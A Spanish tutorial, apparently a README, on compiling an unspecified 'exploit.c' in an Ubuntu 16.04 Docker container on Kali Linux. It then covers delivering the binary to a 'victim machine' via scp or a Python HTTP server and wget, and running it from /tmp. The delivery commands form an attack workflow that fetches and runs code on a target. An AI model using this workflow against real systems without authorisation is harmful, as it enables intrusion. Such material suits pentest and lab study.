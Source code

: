 ## Paso 1: Instalar Docker en Kali Linux

1. **Actualizar los Repositorios e Instalar Docker**:
   ```bash
   sudo apt-get update
   sudo apt-get install docker.io
   ```

2. **Iniciar el Servicio Docker**:
   ```bash
   sudo systemctl start docker
   sudo systemctl enable docker
   ```

## Paso 2: Ejecutar un Contenedor Docker con Ubuntu 16.04

1. **Ejecutar el Contenedor**:
   - Descarga y ejecuta un contenedor Docker con Ubuntu 16.04. Esto crea un nuevo contenedor llamado `ubuntu-compile`:
     ```bash
     sudo docker run -it --name ubuntu-compile ubuntu:16.04
     ```

2. **Instalar `gcc` en el Contenedor**:
   - Dentro del contenedor Docker, actualiza los repositorios e instala `gcc` y las herramientas necesarias:
     ```bash
     apt-get update
     apt-get install build-essential
     ```

## Paso 3: Transferir el Código Fuente al Contenedor Docker

1. **Abrir una Nueva Terminal en Kali Linux**:
   - En una nueva terminal de tu máquina Kali Linux, copia el archivo de código fuente `exploit.c` al contenedor Docker:
     ```bash
     sudo docker cp /ruta/al/exploit.c ubuntu-compile:/exploit.c
     ```

## Paso 4: Compilar el Exploit dentro del Contenedor Docker

1. **Ingresar al Contenedor Docker**:
   - Si has salido del contenedor, puedes volver a ingresar ejecutando:
     ```bash
     sudo docker start -i ubuntu-compile
     ```

2. **Compilar el Código Fuente**:
   - Dentro del contenedor Docker, compila el código fuente del exploit:
     ```bash
     gcc -o /exploit /exploit.c
     ```

## Paso 5: Transferir el Binario Compilado desde el Contenedor Docker a Kali Linux

1. **Abrir una Nueva Terminal en Kali Linux**:
   - En la terminal de tu máquina Kali Linux, copia el archivo binario compilado desde el contenedor Docker a tu máquina Kali Linux:
     ```bash
     sudo docker cp ubuntu-compile:/exploit /ruta/de/destino/en/kali/
     ```

## Paso 6: Transferir el Binario Compilado a la Máquina Víctima

1. **Usar `scp` o un Servidor HTTP Temporal para Transferir el Archivo**:
   
   **Usando `scp`**:
   ```bash
   scp /ruta/de/destino/en/kali/exploit usuario@ip_de_la_maquina_victima:/tmp/
   ```

   **Usando un Servidor HTTP Temporal**:
   - En Kali Linux, navega al directorio donde se encuentra el binario y ejecuta:
     ```bash
     cd /ruta/de/destino/en/kali
     python3 -m http.server 8000
     ```

   - En la máquina víctima, usa `wget` para descargar el archivo:
     ```bash
     wget http://<IP_DE_TU_MAQUINA_KALI>:8000/exploit -O /tmp/exploit
     ```

## Paso 7: Dar Permisos de Ejecución al Binario

1. **Dar Permisos de Ejecución al Archivo**:
   - En la máquina víctima, da permisos de ejecución al binario:
     ```bash
     chmod +x /tmp/exploit
     ```

## Paso 8: Ejecutar el Exploit

1. **Ejecutar el Binario en la Máquina Víctima**:
   - Ejecuta el binario:
     ```bash
     /tmp/exploit
     ```

## Consideraciones de Seguridad

- **Verificar que el Archivo es un Binario**:
  - Asegúrate de que el archivo `exploit` es un binario ejecutando:
    ```bash
    file /tmp/exploit
    ```

